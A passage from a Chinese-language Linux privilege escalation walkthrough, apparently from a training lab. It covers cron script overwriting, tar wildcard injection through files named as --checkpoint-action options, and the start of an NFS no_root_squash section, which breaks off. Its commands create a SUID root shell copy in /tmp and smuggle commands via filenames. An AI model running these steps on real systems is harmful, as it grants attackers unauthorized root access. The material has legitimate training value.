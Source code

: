```

执行：
> echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh

执行：
> chmod +x /home/user/overwrite.sh

执行：
> /tmp/bash -p

# 15.Cron (通配符)

这个条件要满足：
1. Cron任务使用了tar命令
2. 使用了通配符“*”


查看overwrite.sh脚本
```
TCM@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *

```

依次执行：
```
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\ runme.sh

```

当Cron触发时，实际上等同于执行：

> tar -zcf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh runme.sh 

# 16.Cron (文件覆盖)

这个思路跟14有点像，就是把提权命令追加到Cron脚本当中，前提是Cron脚本是可写的

检查权限,发现可写：
```
TCM@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

追加提权命令到Cron脚本中：
> echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh

等待一分钟任务执行，执行提权：
> /tmp/bash -p

# 17.NFS

## 思路
1. NFS（网络文件共享）配置保存在 ```/etc/exports``` 文件中。该文件是在 NFS 服务器安装期间创建的，通常可以由用户读取
查看：
> cat  /etc/exports

2. 关键元素是可以在上面看到的```no_root_squash```选项
3. 默认情况下，NFS 会将 root 用户更改为 nfsnobody 并剥夺任何文件以 root 权限运行。如果“no_root_squash”选项存在于可写共享中，我们可以创建一个设置了 SUID 位的可执行文件并在目标系统上运行它.

```